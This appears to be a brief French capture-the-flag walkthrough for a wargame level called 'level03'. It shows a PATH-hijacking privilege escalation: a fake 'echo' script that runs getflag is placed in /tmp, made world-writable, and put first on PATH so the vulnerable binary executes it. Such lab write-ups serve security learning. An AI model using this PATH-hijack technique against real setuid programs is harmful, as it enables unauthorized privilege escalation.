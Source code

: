 ```
$> ./level03
Exploit me
$>
```
On peut voir dans l'executable avec hexdump

```sh
hexdump -C level03 | grep Exploit -B 5 -A 5
```

ON peut ensuite faire un faux echo qui executera getflag, et Changer le PATH pour donner priorite a notre executable et forcer ./level03 a executer getflag.
```
echo /bin/getflag > /tmp/echo
chmod 777 /tmp/echo
export PATH=/tmp
./level03
```
